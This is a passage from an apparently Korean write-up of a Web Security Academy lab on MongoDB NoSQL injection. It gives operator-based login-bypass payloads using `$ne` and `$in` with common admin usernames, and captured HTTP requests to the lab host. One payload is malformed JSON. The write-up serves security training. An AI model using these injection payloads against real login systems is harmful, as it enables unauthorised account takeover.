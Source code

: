 `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`

4. 만약 username을 일부 지정하고 싶다면 다음과 같이 한다. username을 admin, administrator, superadmin과 같은 잘 알려진 관리자ID로 지정하고, password는 공백이 아닌 조건을 지정한다. 

`{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`


# 랩설명
- 문제 사이트는 MongoDB NoSQL을 사용하고 있고, 로그인 기능에 NoSQL인젝션 취약점이 있다. 
- 이를 이용해 관리자로 로그인하면 문제가 풀린다. 
- wiener:peter로 로그인할 수 있다. 

```
The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.

To solve the lab, log into the application as the administrator user.

You can log in to your own account using the following credentials: wiener:peter
```

# 풀이
1. 일단 로그인 과정을 살펴본다. 다음과 같이 JSON형식의 페이로드가 전달되는 것을 확인했다. 

```http
POST /login HTTP/2
Host: 0ac900fe040e691d83b3647700400094.web-security-academy.net
Cookie: session=JfmsNEjgFPT37HXmriKAf7uyEwrnvwiK
Content-Length: 40
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0ac900fe040e691d83b3647700400094.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ac900fe040e691d83b3647700400094.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

{"username":"wiener","password":"peter"}
```

2. 요청을 Repeater로 보내서 다음 페이로드를 사용가능한지 테스트해본다. 

`{"username":{"$ne":"invalid"},"password":{"peter"}}`

```
POST /login HTTP/2
Host: 0ac900fe040e691d83b3647700400094.web-security-academy.net
Cookie: session=JfmsNEjgFPT37HXmriKAf7uyEwrnvwiK
Content-Length: 56
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0ac900fe040e691d83b3647700400094.web-security-academy.net
Sec-Fetch-Site: same-origin
```